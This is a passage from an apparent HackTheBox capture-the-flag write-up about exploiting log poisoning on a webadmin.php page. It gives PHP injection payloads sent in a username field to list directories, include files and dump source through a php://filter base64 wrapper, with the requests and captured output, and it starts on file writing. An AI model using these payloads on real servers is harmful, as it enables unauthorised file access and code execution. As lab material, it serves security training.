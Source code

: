 #### Dir Walk

I will use the php functions `scandir` and `print_r` to list directories and print the results. If I poison the log with with a `username=<?php echo print_r(scandir($_GET['dir'])); ?>`, then any time I call `show` on `webadmin.php`, I can pass in a `dir=[path]`, and the results will come back. For example, `action=show&site=hackthebox&password=12345678&session=8870c91857abf06f5f0fe0d9acea7f53d846be75c18ab95a0018a32a6b5518f7&dir=.`:

```

[04 March 2019, 10:47:48 AM] 10.10.14.14 - Username: Array
(
    [0] => .
    [1] => ..
    [2] => index.html
    [3] => webadmin.php
)
1, Password: xxxxxx

```

#### File Read

I can do a similar thing using `include` to read from files. So first I’ll POST with `username=<?php include($_GET['file']);?>`, and then I’ll view `action=show&site=hackthebox&password=12345678&session=8870c91857abf06f5f0fe0d9acea7f53d846be75c18ab95a0018a32a6b5518f7&dir=.&file=index.html`:

```

[04 March 2019, 11:33:35 AM] 10.10.14.14 - Username: <!DOCTYPE html>
<html>
  <head>
    <meta http-equiv="refresh" content="0; URL='/'" />
  </head>
  <body>
  </body>
</html>
, Password: xxxxxx

```

I can also read php files with a php filter. If I set `file=php://filter/convert.base64-encode/resource=webadmin.php`, then I get back:

```

[04 March 2019, 11:33:35 AM] 10.10.14.14 - Username: PD9waHAKICAkaXBfaGF...[snip]...ID8+Cg==, Password: was here

```

#### Write File

I will use `file_put_contents` to write files on target. I don’t want to pass my file contents through the url, as that is limited on space. I will also base64 my content to ensure that it doesn’t causes issues with spaces or punctuation.
